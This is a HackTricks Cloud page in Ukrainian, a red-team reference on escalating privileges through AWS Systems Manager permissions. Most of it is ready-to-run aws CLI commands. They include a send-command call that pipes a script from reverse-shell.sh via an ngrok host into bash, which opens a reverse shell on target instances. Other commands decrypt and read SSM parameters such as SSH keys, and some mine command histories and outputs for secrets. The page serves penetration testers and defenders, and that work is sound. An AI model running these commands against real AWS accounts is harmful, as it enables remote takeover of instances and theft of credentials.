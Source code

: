 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Для отримання додаткової інформації про SSM перегляньте:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Атакуючий з дозволом **`ssm:SendCommand`** може **виконувати команди в екземплярах**, що працюють з Amazon SSM Agent, і **компрометувати IAM Role**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
У випадку, якщо ви використовуєте цю техніку для ескалації привілеїв всередині вже скомпрометованого EC2 екземпляра, ви можете просто захопити rev shell локально за допомогою:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM агентами.

### `ssm:StartSession`

Зловмисник з дозволом **`ssm:StartSession`** може **розпочати сесію, подібну до SSH, в екземплярах**, що працюють з Amazon SSM Agent, і **скомпрометувати IAM роль**, що працює всередині нього.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Щоб почати сесію, вам потрібно встановити **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM Agents.

#### Підвищення привілеїв до ECS

Коли **ECS завдання** виконуються з **увімкненим `ExecuteCommand`**, користувачі з достатніми правами можуть використовувати `ecs execute-command`, щоб **виконати команду** всередині контейнера.\
Згідно з [**документацією**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), це здійснюється шляхом створення безпечного каналу між пристроєм, який ви використовуєте для ініціювання команди “_exec_“, та цільовим контейнером за допомогою SSM Session Manager. (Необхідний плагін SSM Session Manager для цього)\
Отже, користувачі з `ssm:StartSession` зможуть **отримати оболонку всередині ECS завдань** з увімкненою цією опцією, просто виконавши:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Потенційний вплив:** Пряме підвищення привілеїв до `ECS` IAM ролей, прикріплених до запущених завдань з увімкненим `ExecuteCommand`.

### `ssm:ResumeSession`

Зловмисник з дозволом **`ssm:ResumeSession`** може повторно **розпочати сесію, подібну до SSH, на екземплярах**, що виконують Amazon SSM Agent з **відключеним** станом сесії SSM та **компрометувати IAM роль**, що виконується всередині неї.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Потенційний вплив:** Пряме підвищення привілеїв до IAM ролей EC2, прикріплених до запущених екземплярів з працюючими SSM агентами та відключеними сесіями.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Зловмисник з вказаними дозволами зможе перерахувати **SSM параметри** та **читати їх у відкритому вигляді**. У цих параметрах ви часто можете **знайти чутливу інформацію**, таку як SSH ключі або API ключі.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Потенційний вплив:** Знайти чутливу інформацію всередині параметрів.

### `ssm:ListCommands`

Зловмисник з цим дозволом може перерахувати всі **команди**, надіслані і, сподіваючись, знайти **чутливу інформацію** в них.
```
aws ssm list-commands
```
**Потенційний вплив:** Знайти чутливу інформацію всередині командних рядків.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Зловмисник з цими дозволами може перерахувати всі **команди**, надіслані та **прочитати вихідні дані**, сподіваючись знайти **чутливу інформацію** в них.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині виходу командних рядків.

### Codebuild

Ви також можете використовувати SSM, щоб потрапити всередину проекту codebuild, що будується:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
